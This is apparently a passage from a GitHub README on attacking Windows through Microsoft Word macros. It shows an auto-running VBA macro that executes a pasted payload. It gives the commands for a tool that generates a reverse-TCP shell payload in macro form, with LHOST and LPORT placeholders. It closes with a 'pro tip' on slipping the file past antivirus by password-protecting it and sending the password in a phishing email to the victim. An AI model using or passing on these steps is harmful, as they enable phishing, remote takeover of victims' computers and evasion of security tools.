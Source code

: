 ```

  MyMacro

End Sub

Sub Document_Open()

  MyMacro

End Sub

Sub MyMacro()

    Dim Str As String

   <b>Paste the script output here!<b>

    CreateObject("Wscript.Shell").Run Str

End Sub
```
## Exploiting Microsoft Windows using MS Word Macro [Automation Script] 🪿
If the thought of manually crafting a macro exploit seems feels like a headache then This tool simplifies the process, which automatically generate MW word macros which contain's your RCE payload code.

***Minitrue***
```
git clone https://github.com/X0RW3LL/Minitrue.git
```
```
cd /opt/WindowsMacros/Minitrue
./minitrue
select a payload: windows/x64/shell_reverse_tcp
select the payload type: VBA Macro
LHOST=$yourIP
LPORT=$yourPort
Payload encoder: None
Select or enter file name (without extensions): hacker
```
## Pro tip ♦️: 
**You can put a password on your payload file to bypass Windows antivirus. 🔍**

**When the victim receives your email containing an attachment, the attachment is a password-protected spreadsheet or MS Word file. Make sure you provide a password in your phishing email. When Your target downloads 📩 the file and then enters the password to open it . your malicious payload is executed on their computer!** 

**because antivirus software is not able to scan your malicious file, as it is encrypted and password-protected.🔐** 
Antiviruses are designed to scan for malicious behavior. Not to crack the password protected file, LoL.
<div align="center">
